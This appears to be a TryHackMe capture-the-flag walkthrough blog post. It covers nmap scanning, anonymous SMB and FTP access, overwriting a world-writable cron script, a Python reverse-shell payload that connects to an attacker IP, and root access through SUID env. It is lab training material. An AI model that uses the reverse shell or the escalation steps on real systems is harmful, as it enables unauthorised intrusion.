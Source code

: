 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/de6eece3-9ff2-4439-9c01-c6433e45bc04"> AgentSudo | Tryhackme | Walkthrough 
date: 2023-12-15 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [agent-sudo,walkthrough,tryhackme,privilege-escalation,hydra,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 6</h1>




## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -T4 10.10.215.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 07:04 EST
Nmap scan report for 10.10.215.229
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.105.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-14T12:05:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-12-14T12:05:14+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.56 seconds
```

## 1️⃣ Lets Start with SMB 👨🏻‍💻

```
smbclient -L //10.10.107.211
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

Lets Get into **pics** share 

`smbclient -N \\\\10.10.107.211\\pics`

```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

Download it through `mget`

```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```

After a hard try on those images with `strings` , `steghide` , `stegosolve` `stegseek` ended up with nothing!! 


## 2️⃣ FTP 

```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`Download all the three files with mget`

### to_do.txt
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

### clean.sh 
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### removed_files.log
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

## 3️⃣ Get Set GO 🏁 

so this clean.sh is attached to a cronjob basically the clean.sh removes files from /tmp directory and keep the updates in removed_files.log file 

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

## 4️⃣ Getting Reverse shell 


Payload
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Listner 
```
nc -lnvp 1234
```

```
namelessone@anonymous:~$ ls
pics  user.txt
```

## 5️⃣ Privilege Escalation

`Gtfobins`

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)